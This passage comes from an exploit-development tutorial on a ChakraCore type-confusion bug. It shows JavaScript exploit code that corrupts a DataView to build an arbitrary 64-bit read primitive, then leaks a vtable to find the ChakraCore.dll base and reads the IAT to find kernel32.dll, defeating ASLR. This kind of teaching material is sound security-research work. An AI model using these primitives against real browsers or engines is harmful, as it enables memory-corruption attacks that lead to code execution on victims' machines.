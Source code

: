```javascript
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));
}

main();
```

We can see from here we successfully leak the base address of `kernel32.dll`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion73.png" alt="">

You may also wonder, our `iatEntry` is being treated as an array. This is actually because our `read64()` function returns an array of two 32-bit values. This is because we are reading 64-bit pointer-sized values, but remember that JavaScript only provides us with means to deal with 32-bit values at a time. Because of this, `read64()` stores the 64-bit address in two separated 32-bit values, which are managed by an array. We can see this by recalling the `read64()` function.

```javascript
// Arbitrary read function
function read64(lo, hi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
    // Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
    var arrayRead = new Uint32Array(0x10);
    arrayRead[0] = dataview2.getUint32(0x0, true);   // 4-byte arbitrary read
    arrayRead[1] = dataview2.getUint32(0x4, true);   // 4-byte arbitrary read

    // Return the array
    return arrayRead;
}
```
